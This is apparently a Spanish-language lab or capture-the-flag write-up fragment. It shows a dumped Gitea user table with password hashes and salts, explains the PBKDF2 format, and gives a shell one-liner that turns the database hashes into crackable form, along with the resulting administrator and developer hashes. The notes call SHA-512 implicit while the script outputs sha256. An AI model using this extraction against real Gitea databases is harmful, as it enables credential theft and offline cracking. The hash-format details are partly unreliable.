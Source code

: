 | 4   | hahalol       | hahalol       |           | hahalol@gmail.com     | 0                  | enabled                        | f5cbd21458ebc24ae462926e851e21a953030e5f8bdc9f57633bb235b6944a08ae3e91036c8f7f13fd647edb942e3724b7b2 | pbkdf2$50000$50  | 0                    | 0          | 0            |            |      |          |         |       | 4c43d3ea816ae4f8d0b095f993aad8bc | en-US    |             | 1739810105   | 1739812965   | 1739812965      | 0                    | -1                | 1         | 0        | 0             | 0              | 0                  | 1                         | 0              | 04c1e5c82ea5009599842f28ffa2b649 | hahalol@gmail.com     | 0                 | 1             | 0             | 0         | 0         | 0         | 0           | 0          | 0                             |                 |       | 0                     |
| 5   | hacker        | hacker        |           | hacker@gmail.com      | 0                  | enabled                        | 2ce159ff197379b8598217f304fd62bf23553e51a12b30a50de4ecfc12add4214e88f2969edaa95be6b416eb659db8fb1f98 | pbkdf2$50000$50  | 0                    | 0          | 0            |            |      |          |         |       | 5ca5776c7a616e8b19b67059de2d1b60 | en-US    |             | 1739811981   | 1739812071   | 1739811981      | 0                    | -1                | 1         | 0        | 0             | 0              | 0                  | 1                         | 0              | c7b686bac36b14f11712b6e027f73bb7 | hacker@gmail.com      | 0                 | 1             | 0             | 0         | 0         | 0         | 0           | 0          | 0                             |                 |       | 0                     |
| 6   | kali          | kali          |           | kali@kali.com         | 0                  | enabled                        | 1cb922c696dee762c018ad606f8fd7eca87f9642809a3197c98eb661a5e74f1a4a49bed44ef9417d798b5cdb46064d0698bc | pbkdf2$50000$50  | 0                    | 0          | 0            |            |      |          |         |       | be731a58906c441c4afe7e48bef44c7f | en-US    |             | 1739812724   | 1739813242   | 1739812724      | 0                    | -1                | 1         | 0        | 0             | 0              | 0                  | 1                         | 0              | ccdee931405a2f5a1178661a185f64b6 | kali@kali.com         | 0                 | 1             | 0             | 0         | 0         | 0         | 0           | 0          | 0                             | unified         |       | 0                     |
| 7   | tester        | tester        |           | tester@test.com       | 0                  | enabled                        | 2a17317ce9211b8e4e44a75de69f017403528d30c0e6c0355ea9af7c350e19c6e1702a5cf90dc6652fc92cb2ac425231d79d | pbkdf2$50000$50  | 0                    | 0          | 0            |            |      |          |         |       | 6acd35897112b2862fb07ed947853558 | en-US    |             | 1739813080   | 1739813081   | 1739813080      | 0                    | -1                | 1         | 0        | 0             | 0              | 0                  | 1                         | 0              | ccf6419a6bc1132e547f5dd94057f124 | tester@test.com       | 0                 | 0             | 0             | 0         | 0         | 0         | 0           | 0          | 0                             |                 |       | 0                     |
| 8   | cher0         | cher0         |           | none@mail.com         | 0                  | enabled                        | 2f1bd1ee4c28629a3fdc8105c8fa3fa47972dc805531aa49b962b309ad7177e83b0506f22eb94873740565f1f434fd2d6d3b | pbkdf2$50000$50  | 0                    | 0          | 0            |            |      |          |         |       | 596dccd8ab821622a2a629dc7b5c2bc5 | en-US    |             | 1739813478   | 1739813900   | 1739813478      | 0                    | -1                | 1         | 0        | 0             | 0              | 0                  | 1                         | 0              | 569a0839ffaa6c4a19489a5d1006cf12 | none@mail.com         | 0                 | 0             | 0             | 0         | 0         | 0         | 0           | 0          | 0                             | unified         |       | 0                     |
### **Cómo están hasheadas las contraseñas**

1. **Algoritmo de hashing** :
    
    - El campo `passwd_hash_algo` indica que el algoritmo utilizado es **PBKDF2** .

2. **Configuración del hash** :
    
    - Según el valor `pbkdf2$50000$50`:
        - **Iteraciones** : 50,000.
        - **Longitud del hash** : 50 bytes (en formato hexadecimal).
        - **Función hash subyacente** : SHA-512 (implícito en PBKDF2).
3. **Salt** :
    
    - El salt está almacenado en el campo `salt`. Por ejemplo:
        - Para el usuario `administrator`: `70a5bd0c1a5d23caa49030172cdcabdc`.
        - Para el usuario `developer`: `0ce6f07fc9b557bc070fa7bef76a0d15`.
        
4. **Estructura del hash** :
    
    - El hash final (`passwd`) es el resultado de aplicar PBKDF2 sobre la contraseña original, utilizando el salt correspondiente y realizando 50,000 iteraciones. (esta jodida...)


Script para sacar el hash de la base de datos;
```sql
sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes
```

```bash
administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```